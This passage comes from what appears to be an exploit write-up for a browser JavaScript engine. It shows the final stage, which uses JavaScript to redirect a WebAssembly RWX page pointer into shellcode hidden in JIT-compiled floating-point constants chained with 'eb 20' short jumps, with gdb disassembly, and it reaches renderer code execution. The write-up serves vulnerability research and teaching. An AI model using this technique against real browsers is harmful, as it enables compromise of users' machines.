domRect.x = code;
node.copyFromChannel(dst, 0, 0);
intView[0] = intView[0] + 0xe + 0x100;
node.copyToChannel(dst, 0, 0);

exported();
exported();
```

Let's take a look at the last part of the exploit. Here we create the pointer `code` with calculations explained above in the `Finding wasm rwx page address` section. According to memory shown above the `code` should contain `0x7de00040f74`. We place that address on `channel`, dereference it and get the `0x0000127fdbc47840` as output.

Now, lets calculate the offset from the `rwx` page address to our shellcode which is `0x127fdbc4794c - 0x0000127fdbc47840 = 0x10c`. But the exploit adds `0x10e`. Why is that let's find out.

If we look at the last instructions from above output we can see `movabs r10,0x1debc031d231f631`. This is the instruction that is writing our shellcode onto the registers. The `movabs` instruction above has a bytecode of size 10. 2 bytes for `movabs r10` and next 8-bytes is the immediate 64-bit floating point number comprising our shellcode when seen as code. We add 2 more to the address where this instruction resides to bypass the 2 bytes for `movabs r10` instruction. This way when we run the main function it jumps directly to our shellcode. 

Now, there is one more thing to take note of. We are using instructions `eb 20` in every instruction we give. This also only leaves us 6-byte of shellcode per floating point value. To know the reason let's head back to memory and we will easily see why:

```text
...
0x127fdbc4794c:	movabs r10,0x1debc031d231f631
0x127fdbc47956:	movq   xmm0,r10
0x127fdbc4795b:	xor    ecx,ecx
0x127fdbc4795d:	mov    edx,DWORD PTR [rax+0x7]
0x127fdbc47960:	cmp    ecx,edx
0x127fdbc47962:	jae    0x127fdbc47bcf
0x127fdbc47968:	shl    ecx,0x3
0x127fdbc4796b:	movsd  QWORD PTR [rax+rcx*1+0xb],xmm0
0x127fdbc47971:	movabs r10,0x20eb900000636c68
0x127fdbc4797b:	movq   xmm0,r10
0x127fdbc47980:	mov    ecx,0x1
0x127fdbc47985:	mov    edx,DWORD PTR [rax+0x7]
0x127fdbc47988:	cmp    ecx,edx
0x127fdbc4798a:	jae    0x127fdbc47bd4
0x127fdbc47990:	shl    ecx,0x3
0x127fdbc47993:	movsd  QWORD PTR [rax+rcx*1+0xb],xmm0
0x127fdbc47999:	movabs r10,0x20eb586163782f68
0x127fdbc479a3:	movq   xmm0,r10
...
```

`eb 20` allows us to short relative jump to our next floating-point encoded shellcode and the distance remains same each time. The jump target is calculated from the byte immediately after `eb 20` so `0x127fdbc4797b + 0x20 = 0x127fdbc4799b`. If we see the floating-point as code we will start seeing assembly instructions:

```text
(gdb) x/4i 0x127fdbc4794c+2
   0x127fdbc4794e:	xor    esi,esi
   0x127fdbc47950:	xor    edx,edx
   0x127fdbc47952:	xor    eax,eax
   0x127fdbc47954:	jmp    0x127fdbc47973
(gdb) x/4i 0x127fdbc47973
   0x127fdbc47973:	push   0x636c
   0x127fdbc47978:	nop
   0x127fdbc47979:	jmp    0x127fdbc4799b
   0x127fdbc4797b:	movq   xmm0,r10
```

We can see the resolved short jump addresses. And this way we have achieved arbitrary code execution inside the renderer process.

# Demo


